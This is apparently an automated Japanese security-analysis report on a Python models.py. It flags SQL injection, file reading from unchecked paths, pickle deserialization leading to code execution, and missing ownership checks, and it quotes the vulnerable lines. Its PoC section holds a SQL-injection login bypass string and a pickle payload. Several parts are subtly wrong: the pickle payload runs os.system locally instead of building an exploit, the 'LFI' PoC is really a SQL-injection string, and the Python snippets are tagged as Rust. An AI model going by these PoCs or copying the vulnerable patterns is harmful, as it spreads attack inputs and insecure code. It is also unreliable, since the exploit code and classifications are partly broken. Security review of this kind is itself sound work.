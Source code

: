 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 70**

## 脆弱性タイプ

- `SQLI`
- `LFI`
- `RCE`
- `IDOR`

## 解析結果

本リポジトリのmodels.pyでは、ユーザー入力を直接文字列連結でSQLクエリに埋め込んでおり、プレースホルダによるパラメータ化が一切行われていません。これにより、authenticate_user／get_user_by_id／search_documents／AuditLogger.log_action／AuditLogger.get_user_logsでSQLインジェクション（SQLI）が可能です。

また、DocumentModel.get_document_contentではDBから取得したfile_pathを検証せずにopen()でファイル読み込みを行っており、ローカルファイル読み込み（LFI）攻撃が成立します。さらに、update_user_preferencesではpickle.loadsによる任意コード実行（RCE）が可能です。search_documentsにはオーナーチェックがなく、IDORにより他ユーザーの文書情報取得が可能です。

## PoC（概念実証コード）

```text
# SQLインジェクションで認証バイパス
user = "admin' OR '1'='1" 
passw = "hoge"
result = UserModel(db).authenticate_user(user, passw)
print(result)  # 管理者権限取得

# LFIによる任意ファイル読み込み
content = DocumentModel(db).get_document_content("1 OR 1=1")
print(content)  # /etc/passwdなどの読み込みに悪用可能

# 任意コード実行（RCE） via pickle
import os, pickle
payload = pickle.dumps(os.system('id'))
payload_str = payload.decode('latin1')
UserModel(db).update_user_preferences(1, payload_str)

# IDORによる他ユーザー文書取得
docs = DocumentModel(db).search_documents('', 99)
print(docs)

```

## 関連コードコンテキスト

### 関数名: authenticate_user
- 理由: SQLインジェクション：ユーザー入力を直接連結している
- パス: repo/models.py
```rust
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

### 関数名: get_user_by_id
- 理由: SQLインジェクション：IDを検証せずに直接埋め込み
- パス: repo/models.py
```rust
query = f"SELECT * FROM users WHERE id = {user_id}"
```

### 関数名: search_documents
- 理由: SQLインジェクション＋IDOR：入力をエスケープせずLIKE句に埋め込み、オーナーチェックもなし
- パス: repo/models.py
```rust
sql = f"SELECT * FROM documents WHERE title LIKE '%{query}%'
"
```

### 関数名: get_document_content
- 理由: LFI：DBからのfile_pathを検証せずファイルを読み込む
- パス: repo/models.py
```rust
with open(file_path, 'r') as f:
```

### 関数名: update_user_preferences
- 理由: Unsafe deserialization：pickleによる任意コード実行可能
- パス: repo/models.py
```rust
prefs = pickle.loads(preferences.encode('latin1'))
```

### 関数名: log_action
- 理由: SQLインジェクション：ログ用INSERTに直接連結
- パス: repo/models.py
```rust
query = f"""
    INSERT INTO audit_logs (user_id, action, details, ip_address) 
    VALUES ({user_id}, '{action}', '{details}', '{ip_address}')
"""
```

### 関数名: get_user_logs
- 理由: SQLインジェクション：user_idを検証せずに埋め込み
- パス: repo/models.py
```rust
query = f"SELECT * FROM audit_logs WHERE user_id = {user_id} ORDER BY timestamp DESC"
```

### 関数名: search_documents
- 理由: アクセス制御不備（IDOR）：全ユーザーの文書にアクセス可能
- パス: repo/models.py
```rust
# Vulnerable: No authorization check (IDOR)
```

## 解析ノート

各メソッドがユーザー入力を不検証でSQLクエリ／ファイルIO／pickleに直接渡しており、重大な脆弱性（SQLI、LFI、RCE、IDOR）が混在している。

